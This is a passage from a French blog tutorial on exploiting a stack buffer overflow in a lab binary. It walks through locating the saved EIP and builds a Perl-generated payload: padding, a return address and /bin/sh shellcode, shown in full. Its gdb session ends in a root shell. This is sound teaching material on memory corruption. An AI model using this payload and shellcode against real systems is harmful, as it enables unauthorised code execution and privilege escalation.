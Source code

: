 <img class=" size-full wp-image-484 aligncenter" src="http://i1.wp.com/blog.hackndo.com/assets/uploads/2015/03/img_54f81318e37b8.png?w=640" alt="Décalae de la pile" data-recalc-dims="1" />

Donc si on modifie la taille des arguments passés au programme, ça décalera la pile, donc les adresses que l'on recherche. C'est pourquoi il est indispensable de rester dans le même contexte d'exécution, en envoyant un argument qui soit toujours de la même taille, que ce soit pendant nos recherches ou pendant notre exploitation.

<p style="text-align: left;">
  Cela étant dit, revenons au résultat de notre breakpoint : ESP a pour valeur 0xbffffc4c, et on vérifie bien qu'à cette adresse se trouve 0x08048446, qui est la valeur sauvegardée de EIP (puisque c'est l'adresse de l'instruction qui suit le call de <em>func</em>). Il va donc falloir faire pointer cette sauvegarde de EIP vers l'adresse suivante, qui contiendra notre shellcode, c'est à dire l'adresse 0xbffffc50.
</p>

<p style="text-align: left;">
  Nous avons donc notre payload, qui est de la forme :
</p>

<p style="text-align: left;">
  perl -e &#8216;print &#8220;A&#8221;x20 . &#8220;\x50\xfc\xff\xbf&#8221; . &#8220;\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh&#8221;&#8216;
</p>

<p style="text-align: left;">
  Donc dans gdb, quand on envoie :
</p>

<pre class="lang:shell">(gdb) run `perl -e 'print "A"x20 . "\x50\xfc\xff\xbf" . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"'`

Starting program: /tmp/hackndo/binary `perl -e 'print "A"x20 . "\x50\xfc\xff\xbf" . "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"'`
AAAAAAAAAAAAAAAAAAAAP����^�1�F�F
                                �
                                 ���V
                                      ̀1ۉ�@̀�����/bin/sh
process 21429 is executing new program: /bin/dash
$ whoami
root
$</pre>

<p style="text-align: center;">
  <strong>I AM (G)ROOT !</strong>
</p>

J'espère que cet article **tuto buffer overflow** vous aura été utile. Des protections contre ce type d'exploitation existent cependant, comme le fait de rendre la pile non exécutable. À ce moment là, pas de panique, vous pouvez toujours récupérer un shell, avec par exemple la technique du [retour à la libc](http://blog.hackndo.com/retour-a-la-libc/) (ret2libc). Have fun !

N'hésitez pas à commenter et partager si vous avez aimé !